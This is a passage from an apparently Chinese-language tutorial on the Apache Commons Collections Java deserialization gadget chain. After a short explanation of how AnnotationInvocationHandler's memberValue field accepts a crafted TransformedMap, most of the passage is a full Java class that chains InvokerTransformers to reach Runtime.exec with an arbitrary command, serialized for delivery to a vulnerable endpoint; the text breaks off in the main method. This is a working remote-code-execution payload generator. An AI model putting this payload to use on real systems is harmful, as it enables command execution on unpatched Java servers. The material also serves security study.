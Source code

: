 ```java
    }
```

可以注意到 `memberValue` 是 `AnnotationInvocationHandler` 类中类型声明为 `Map<String, Object>` 的成员变量，刚好和之前构造的 `TransformedMap` 类型相符，因此我们可以通过 Java 的反射机制动态的获取 `AnnotationInvocationHandler` 类，使用精心构造好的 `TransformedMap` 作为它的实例化参数，然后将实例化的 `AnnotationInvocationHandler` 进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的 Gadget，完整代码如下：

```java
package exserial.payloads;

import java.io.ObjectOutputStream;

import java.util.Map;
import java.util.HashMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;

import exserial.payloads.utils.Serializables;

public class Commons1 {

    public static Object getAnnotationInvocationHandler(String command) throws Exception {
        String[] execArgs = command.split(",");
        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap();
        tempMap.put("value", "does't matter");
        Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, exMap);

        return instance;
    }

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
```